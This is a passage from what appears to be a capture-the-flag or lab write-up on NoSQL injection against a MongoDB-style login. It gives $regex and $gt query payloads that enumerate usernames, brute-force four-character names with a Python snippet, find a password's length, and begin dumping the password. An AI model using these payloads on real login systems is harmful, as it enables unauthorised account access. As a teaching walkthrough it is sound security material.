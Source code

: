 
```javascript
user[$regex]=alex&pass[$gt]=
```
![dic_attack_2]({{ site.baseurl }}/images/Capture du 2017-05-15 13-25-10.png)

So we know that the username alex exists and root doesn't.

<br/>

##### 2 : Bruteforce attack
Based on the same method we can try every patterns from aaaa to zzzz (include lowercase, uppercase and
numbers). <br/>
Example : 
```javascript
user[$regex]=aaaa&pass[$gt]= through user[$regex]=zzzz&pass[$gt]= 
```
<br/>
<br/>
One way to generate such a list with python :
```python
patterns = [''.join(i) for i in product(ascii_lowercase, repeat = 4)] 
```

<br/>
<br/>

## Password cracking

Once again we're going to use the query contructor [$regex].

<br/>

##### 1 : Password length
```javascript
user[$gt]=&pass[$regex]=.{0} through user[$gt]=&pass[$regex]=.{5}
```
![pass_length]({{ site.baseurl }}/images/Capture du 2017-05-15 13-33-34.png)

```javascript
user[$gt]=&pass[$regex]=.{6}
```
![pass_length_2]({{ site.baseurl }}/images/Capture du 2017-05-15 13-35-00.png)

So the password of the first user is 5 characters long.

<br/>

##### 2 : Password dump
```javascript
user[$gt]=&pass[$regex]=a.{4}
```
![pass_dump]({{ site.baseurl }}/images/Capture du 2017-05-15 13-38-04.png)
